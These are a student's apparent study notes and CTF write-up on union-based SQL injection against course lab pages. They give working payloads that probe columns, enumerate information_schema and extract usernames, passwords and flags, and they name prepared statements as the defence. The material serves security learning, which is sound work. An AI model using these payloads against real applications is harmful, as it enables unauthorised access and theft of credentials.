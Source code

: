 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on Javascript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where use data in database
2. The data display or not
- Display = Board
- Not display = loginm, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other table
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use select function again and the column number must be the same
ex) select pass from member union select id from member
ex) selct id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)
2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>
a. Find out the point of the SQL Injection
  - 1234' or '1' ='1
b. Find the number of columns
  - 1234' order by 4 #
c. Find the number of print column locations
  - 1234' union select 1,2,3,4 #
d. Find DB name
  - 1234' union select database(),2,3,4 #
e. Find Table name
  - 1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
f. Find column name
  - 1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
g. Find Data
  - 0000' union select id,pass,email,info from member where id = 'doldol' #

4. CTF questions<br>
a. SQL Injection 1
* Find out the point of the SQL Injection = ad%' and 1=1 #
* Find out the number of columns = ad%' order by 4 #
* Find out the number of print column locations = ad%' union select 1,2,3,4 #
* Find DB name = ad%' union select database(),2,3,4 #  => 	sqli_1
* Find table name = ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
* Find column name = ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
* Find data = ad%' union select flag, 2, 3, 4 from flag_table #

b. SQL Injection 
* The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
* The number of columns? = admin' order by 6 #
* location? = admin' union select 1,2,3,4,5,6 #   => only showing "6"
* database? = admin' union select 1,2,3,4,5,database() #    => sqli_5
* table? = admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     => flag_honey
* column name? = admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #   => flag
* data? = admin' union select 1,2,3,4,5,flag from flag_honey #    => 	kkkkkkk_Not Here!
* admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
  - Find hidden information (https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
* admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
* admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
* admin' union select 1,2,3,4,5,group_concat(flag) from secret #

4. Web development
- mypage
